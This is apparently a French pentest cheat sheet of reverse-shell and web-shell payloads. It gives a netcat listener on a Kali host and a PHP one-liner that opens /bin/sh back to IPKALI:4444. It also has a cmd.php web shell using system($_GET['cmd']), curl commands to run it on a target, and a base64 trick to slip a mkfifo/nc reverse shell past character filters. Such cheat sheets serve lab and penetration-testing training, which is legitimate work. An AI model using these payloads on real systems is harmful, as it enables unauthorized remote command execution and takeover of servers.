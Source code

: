 Mettre un nc en écoute sur la kali
```
nc -lvp 4444
```

```
php -r '$sock=fsockopen("IPKALI",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```








## Web server: cmd.php

Si vous pouvez uploader un fichier php sur le serveur web, le fichier ci-dessous vous permettra de lancer des commandes shell:
```
&lt?php echo 'Shell: ';system($_GET['cmd']); ?>
```

Lancer la commande 'id' sur le server
```
curl http://IPSERVER/cmd.php?cmd=id
```








## Web server: cmd.php (clean html)

Uploader la page
```
&ltpre>&lt?php echo 'Shell: ';system($_GET['cmd']); ?>&lt/pre>
```

Lancer la commande 'id' sur le server
```
curl http://IPSERVER/cmd.php?cmd=id
```








## Web server: PHP encodage base64

Parfois certain caractères comme les ; les & ou les | sont filtrés. Un encodage base64 permet de s'en sortir.<br/>
Dans un shell encoder en base64:
```
$ printf 'system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IPKALI 4444 >/tmp/f");' | base64
```
